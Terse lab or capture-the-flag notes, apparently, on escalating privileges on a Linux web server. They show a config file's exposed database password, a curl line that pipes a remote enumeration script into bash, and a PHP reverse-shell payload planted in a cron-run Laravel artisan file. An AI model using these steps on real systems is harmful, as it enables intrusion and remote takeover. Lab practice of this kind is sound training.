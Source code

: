 ```bash
cat config.php 
<?php
   define('DB_SERVER', 'localhost');
   define('DB_USERNAME', 'admin');
   define('DB_PASSWORD', 'kEjdbRigfBHUREiNSDs');
   define('DB_DATABASE', 'admin');
   $db = mysqli_connect(DB_SERVER,DB_USERNAME,DB_PASSWORD,DB_DATABASE);
?>
```

```bash
$ curl 10.10.14.21/linpeas.sh|bash
```

Cron jobs
![[Pasted image 20211109042812.png]]

edit /var/www/laravel/artisan with a reverse shell

Payload in artisan
```php
$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");
```

![[Pasted image 20211109043133.png]]
